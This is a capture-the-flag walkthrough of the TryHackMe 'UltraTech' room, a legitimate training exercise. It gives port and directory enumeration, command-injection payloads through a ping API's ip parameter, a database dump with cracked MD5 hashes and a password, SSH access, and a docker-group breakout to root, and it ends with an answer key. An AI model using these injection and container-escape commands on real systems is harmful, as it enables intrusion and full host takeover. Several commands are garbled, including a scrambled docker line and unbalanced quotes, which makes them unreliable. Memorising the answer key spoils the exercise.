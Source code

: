 # UltraTech | TryHackMe Walkthrough

**Room:** UltraTech  
**Difficulty:** Medium  
**Tags:** Enumeration, SQL Injection, Command Injection, Privilege Escalation  

---

## 🔍 1. Reconnaissance

Scan all ports:

```bash
nmap -sC -sV -Pn -p- -oN nmap_ultratech.txt 10.10.10.10
```

**Results:**
- 21/tcp → vsftpd  
- 22/tcp → OpenSSH  
- 8081/tcp → Node.js Express  
- 31331/tcp → Apache HTTPD (Ubuntu)  

---

## 🌐 2. Web Enumeration

### Port 8081 (Node.js Express API)

```bash
gobuster dir -u http://10.10.10.10:8081 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

**Found:**  
```
/auth
/ping
```

### Port 31331 (Apache)

```bash
gobuster dir -u http://10.10.10.10:31331 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

**Found:**
```
/js
```

Inside `/js`, there is `api.js` which points to `/ping?ip=`.

---

## 💉 3. Exploiting the API (Command Injection)

Test the API:

```bash
curl "http://10.10.10.10:8081/ping?ip=`whoami`
```

It works.  
Try injection:

```bash
curl "http://10.10.10.10:8081/ping?ip=`pwd`
```

Not working (filtered).  
But command substitution works:

```bash
curl "http://10.10.10.10:8081/ping?ip=`ls -la`"
```

**Result:** found file `utech.db.sqlite`.

---

## 📂 4. Extracting the Database

Read contents:

```bash
curl "http://10.10.10.10:8081/ping?ip=`cat utech.db.sqlite`"
```

The SQLite database contains usernames and hashes.

---

## 🔑 5. Users and Hashes

Extracted hashes:

```
r00t : f357a0c52799563c7c7b76c1e7543a32
admin: 0d0ea5111e3c1def594c1684e3b9be84
```

Crack with hashcat:

```bash
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

**Result:**  
```
r00t : cyberpunk
```

---

## 🖥 6. SSH Access

```bash
ssh r00t@10.10.10.10
```

Password: `cyberpunk`

---

## 🔼 7. Privilege Check

```bash
id
```

**Output:**
```
uid=1000(r00t) gid=1000(r00t) groups=1000(r00t),999(docker)
```

The user belongs to the **docker** group.

---

## 🚀 8. Privilege Escalation via Docker

Privilege Escalation
We will use the GTFOBIN to elevate privileges on the target machine. It tells us that in order to get out of the restricted environment of docker, we need to spawn an interactive shell inside the docker.

We run the script directly from the GTFOBIN. However, it gave us an error stating that it was unable to find the alpine image. Therefore, we use the docker ps -a command to list the images available on this Docker instance. We observe that there is an image named bash. As a result, we replace the image name from alpine to bash in the command. After running the modified command again, we find that we are able to gain root access. Finally, we use the cat command to read the private key for the root user, as required to conclude this machine.

Run container mounting host:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
docker ps -a
```

Change root:

```bash
docv /ker run -:/mnt --rm -it bash chroot /mnt sh
```

Now we are root 🎉

---

## 📜 9. Summary (Answers)

1. Port 8081 → Node.js Express  
2. Non-standard port → 31331  
3. Running on 31331 → Apache  
4. Distro → Ubuntu  
5. Number of API routes → 2  
6. Database file → `utech.db.sqlite`  
7. MD5 hash of r00t → `f357a0c52799563c7c7b76c1e7543a32`  
8. Exploitation method → command substitution (`` `...` ``)  
9. Privilege escalation → docker group → root  
